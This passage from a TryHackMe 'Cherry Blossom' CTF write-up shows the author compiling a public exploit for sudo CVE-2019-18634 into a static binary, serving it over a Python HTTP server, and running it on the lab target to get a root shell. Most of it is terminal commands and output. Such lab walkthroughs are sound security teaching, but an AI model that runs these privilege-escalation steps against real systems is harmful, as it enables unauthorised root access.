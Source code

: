 ┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/TryHackMe/Cherry_Blossom]
└─$ cd sudo-cve-2019-18634
                                                                                                                                                                       
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/TryHackMe/Cherry_Blossom/sudo-cve-2019-18634]
└─$ ls 
exploit.c  LICENSE  Makefile  README.md
```
To compile this exploit, I tried using the ```gcc``` compiler but I was getting an error. I guess this is because the gcc compiler on my machine was the newer version. We also can't compile this on the target's machine because the compiler ```gcc``` isn't installed on the target's machine.

Well, what did I do next??

I got an idea from my sensei😎 to use compile using makefile, doing my research on this led me to a compiler known as ```cc```, well this is the first time I'll also be hearing about this compiler.

command:```cc -Os -g3 -std=c11 -Wall -Wextra -Wpedantic -static -o abeg_gimme_shell exploit.c```

<font color="green">The command is a compilation command  for the C program called "exploit.c". The command compiles the exploit.c source file using the specified compiler and linker options, and produces an executable binary called "abeg_gimme_shell"</font>

Running this,

```                                                                                            
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/TryHackMe/Cherry_Blossom/sudo-cve-2019-18634]
└─$ ls
exploit.c  LICENSE  Makefile  README.md
                                                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/TryHackMe/Cherry_Blossom/sudo-cve-2019-18634]
└─$ cc -Os -g3 -std=c11 -Wall -Wextra -Wpedantic -static -o abeg_gimme_shell exploit.c
                                                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/TryHackMe/Cherry_Blossom/sudo-cve-2019-18634]
└─$ ls
abeg_gimme_shell  exploit.c  LICENSE  Makefile  README.md
                                                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/TryHackMe/Cherry_Blossom/sudo-cve-2019-18634]
└─$ file abeg_gimme_shell 
abeg_gimme_shell: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=5351fd74f389f9f811d0023f8f89c767a9236041, for GNU/Linux 3.2.0, with debug_info, not stripped
                                                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/TryHackMe/Cherry_Blossom/sudo-cve-2019-18634]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
cool, now lets send this over to the target's machine

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2416785f-9206-4414-abb4-94cbce65c9f6)

After this, run

command:```chmod +x abeg_gimme_shell``` then ```./abeg_gimme_shell```

This should get us a root shell

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/09f71229-c514-4496-b02c-8f8d14e076f1)

We got a shell as the ```root``` user😊.

That will be all for today
<br> <br>
[Back To Home](../../index.md)

```
